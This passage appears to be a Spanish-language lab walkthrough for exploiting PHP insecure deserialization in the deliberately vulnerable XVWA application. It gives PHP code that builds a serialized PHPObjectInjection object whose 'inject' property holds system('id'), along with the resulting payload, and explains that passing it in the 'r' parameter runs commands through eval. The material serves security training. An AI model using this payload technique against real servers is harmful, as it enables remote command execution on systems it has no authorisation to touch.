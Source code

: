 Ejecutamos el código PHP desde el modo interactivo y deseriallizamos el objeto PHP. Tenga en cuenta que es una matriz asociativa que tiene dos elementos.

Consulte el manual de PHP para deserializar:

Fíjate en el gran mensaje rojo de advertencia. Es una clara advertencia a los desarrolladores sobre la amenaza RCE si pasan la entrada controlada por el usuario a la función Función de deserialización.

Paso 7: Comprueba el código fuente de la página de inyección de objetos PHP desde Github.

```
URL: https://github.com/s4n7h0/xvwa/blob/master/vulnerabilities/php_object_injection/home.php
```

Observe el fragmento de código relevante que se muestra en la imagen anterior. Si la solicitud contiene el parámetro **r**, su valor no está serializado. Además, observe la llamada a **eval**: el parámetro inject se pasa directamente a **eval**, lo cual es una excelente oportunidad para RCE.

Paso 8: Explota la vulnerabilidad de deserialización insegura de PHP.

Guarde el siguiente fragmento de código como object.php

```
<?php
class PHPObjectInjection {
    public $inject = "system('id');";
}

$obj = new PHPObjectInjection();
var_dump(serialize($obj));
?>

```

Observe que el fragmento de código anterior establece el parámetro inject en system('id'), que ejecutaría el comando id en el servidor web.

Serialice el objeto:

Mandar:

```
php object.php
```

Carga serializada:

```
O:18:"PHPObjectInjection":1:{s:6:"inject";s:13:"system('id');";}
```

* Asigne el valor generado en el parámetro **r** de la URL:

Observe que los resultados del comando id se muestran en la página.

Con eso, explotamos con éxito el problema de la deserialización insegura para ejecutar comandos arbitrarios.

Paso 9: Comprueba la lista de procesos en ejecución.
